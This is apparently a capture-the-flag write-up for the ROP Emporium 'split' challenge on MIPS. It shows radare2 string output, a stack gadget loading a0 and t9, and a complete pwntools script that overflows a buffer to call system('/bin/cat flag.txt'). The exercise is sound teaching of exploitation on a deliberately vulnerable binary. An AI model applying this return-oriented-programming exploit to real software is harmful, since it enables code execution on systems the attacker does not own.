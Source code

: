 ```
[0x00400690]> rabin2 -z split_mipsel
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000c20 0x00400c20 21  22   .rodata ascii split by ROP Emporium
1   0x00000c38 0x00400c38 5   6    .rodata ascii MIPS\n
2   0x00000c40 0x00400c40 8   9    .rodata ascii \nExiting
3   0x00000c4c 0x00400c4c 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x00000c7c 0x00400c7c 10  11   .rodata ascii Thank you!
5   0x00000c88 0x00400c88 7   8    .rodata ascii /bin/ls
0   0x00001010 0x00411010 17  18   .data   ascii /bin/cat flag.txt
```
Here we have the string at 0x00411010 address and the system function is called at 0x004009ec. So we need to place a value into a0 and
then jump where the system is called.

Here i looked for a gadget with radare because ropgadget wasn't find gadget useful. So with the command **/R lw** I finally found this gadget.
This gadget could be found also by reading the symbols of the file it is placed into **loc.usefulGadget**.
This gadget take from the stack the value for the registers a0 and t9 and then jump into the value of t9.

Now we just need to create our payload.

```asm
0x00400a20           0800a48f  lw a0, 8(sp)
0x00400a24           0400b98f  lw t9, 4(sp)
0x00400a28           09f82003  jalr t9
0x00400a2c           00000000  nop
```

This is the script that i created for this challenge:

```python
from pwn import *
context.binary = elf = ELF('./split_mipsel')

flag_string = 0x00411010
call_system = 0x004009ec
a0_8sp_t9_4sp_jmpt9 = 0x00400a20

offset = 36
payload = b'A'*36 + p32(a0_8sp_t9_4sp_jmpt9)+p32(0x1)+p32(call_system)+p32(flag_string)

p = elf.process()
#p = gdb.debug(elf.path)

p.recv()
p.sendline(payload)
log.info(p.recvall())

```




